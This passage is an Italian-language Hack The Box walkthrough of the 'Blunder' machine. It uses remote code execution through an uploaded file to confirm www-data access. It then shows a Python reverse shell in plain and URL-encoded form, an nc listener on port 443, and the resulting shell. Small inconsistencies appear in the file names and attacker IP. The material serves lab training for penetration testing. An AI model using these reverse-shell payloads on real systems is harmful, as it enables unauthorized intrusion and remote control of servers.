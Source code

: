 ![](../Hackthebox-OSCP-Prepartion/zzz_rev/attachments/blunder3.png)
non ci resta che visitare http://10.10.10.191/bl-content/tmp/wolf.png?0=whoami per vedere che siamo utenti www-data, dandoci conferma che la RCE funziona.

Ok abbiamo la nostra RCE funzionante è il momento di avere la nostra shell.
Vediamo se è installato python:
`http://10.10.10.191/bl-content/tmp/wolf.png?0=which+python`
il server ci restituisce `/user/bin/python`  perfetto

![](../Hackthebox-OSCP-Prepartion/zzz_rev/attachments/blunder4.png)

Utilizziamo questa shell python 
```python 
python -c 'import
socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connec
t(("10.10.14.23",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

che codificata in URL ci da
```URL
python%20-
c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_
STREAM);s.connect((%2210.10.14.24%22,443));os.dup2(s.fileno(),0);%20os.dup2(s.f
ileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-
i%22]);%27
```

ci mettiamo in ascolto con nc
```bash
┌──(root㉿kali)-[/home/kali/tool/shell/webshell]
└─# nc -lvnp 443
listening on [any] 443 ...
```

la richiesta finale sarà
```html
http://10.10.10.191/bl-content/tmp/evil.php?0=python%20-
c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_
STREAM);s.connect((%2210.10.14.24%22,443));os.dup2(s.fileno(),0);%20os.dup2(s.f
ileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-
i%22]);%27
```

e abbiamo la nostra shell
```bash
┌──(root㉿kali)-[/home/kali]
└─# nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.191] 53632
/bin/sh: 0: can't access tty; job control turned off
$
```

eseguiamo il solito update della shell siamo pronti per la privesc.
